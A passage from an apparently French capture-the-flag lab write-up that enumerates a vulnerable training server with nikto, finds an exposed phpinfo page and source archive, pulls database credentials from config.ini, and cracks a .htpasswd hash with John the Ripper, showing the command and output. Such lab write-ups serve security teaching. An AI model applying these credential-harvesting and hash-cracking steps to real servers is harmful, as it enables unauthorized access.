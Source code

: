 Outre la détection des versions de PHP (5.2.6) et d'Apache (2.2.3 CentOS), l'outil __nikto__ a repéré [une page phpinfo()](https://www.php.net/manual/fr/function.phpinfo.php) dans le répertoire ```/docs``` qui affiche de nombreuses informations « sur PHP, concernant sa configuration courante : options de compilation, extensions, version, informations sur le serveur, et l'environnement (lorsqu'il est compilé comme module), environnement PHP, informations sur le système, chemins, valeurs générales et locales de configuration, en-têtes HTTP et la licence PHP ». Et notamment...

```
System		Linux localhost.localdomain 2.6.18-92.el5 #1 SMP Tue Jun 10 18:49:47 EDT 2008 i686
Build Date	Sep 15 2008 20:43:45
```

Il s'agit d'une information très utile, si jamais des [failles système](https://fr.wiktionary.org/wiki/local_root_exploit) venaient à être nécessaires [pour une élévation de privilèges](https://www.exploit-db.com) sur le serveur. Mais... mais... il y a même le code source complet du site Web ```code_backup.tgz``` en libre accès dans ce même répertoire !

### Analyse de code_backup.tgz : présence d'identifiants et de mots de passe

Preuve que nikto (et n'importe quel outil de manière générale) n'est pas infaillible, le répertoire ```/conf``` n'a pas été inscrit dans la longue liste d'éléments trouvés ci-dessus. Pourtant, le fichier ```config.ini``` contient des informations particulièrement alléchantes pour un attaquant. À noter que l'accès direct via ```http://192.168.56.101/conf/config.ini``` nous est interdit en raison du fichier [.htaccess](https://httpd.apache.org/docs/2.4/fr/howto/htaccess.html).

```ini
;
; This is the configuration file
;
database_host	=	localhost
database_pass	=	45kkald?8laLKD
database_user	=	cms_user
database_db	=	cms
```

En ce qui concerne le répertoire ```/logs```, celui-ci est protégé par une authentification [htpasswd](https://httpd.apache.org/docs/2.4/fr/programs/htpasswd.html), c'est-à-dire qu'un login et un mot de passe sont demandés (_401 Authorization Required_) lors de la consultation de la page ```http://192.168.56.101/logs```. Et que contient le fichier ```.htpasswd``` ?

```
admin:mFiIPQcxSFjRA
```

À toi de jouer, [__John The Ripper__](https://www.openwall.com/john/) !

```console
root@blinils:~# john htpasswdCTF6 --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 AVX-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
adminpass         (admin)
1g 0:00:00:00 DONE (2018-01-01 01:01) 3.571g/s 1865Kp/s 1865Kc/s 1865KC/s adv123..aden05
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
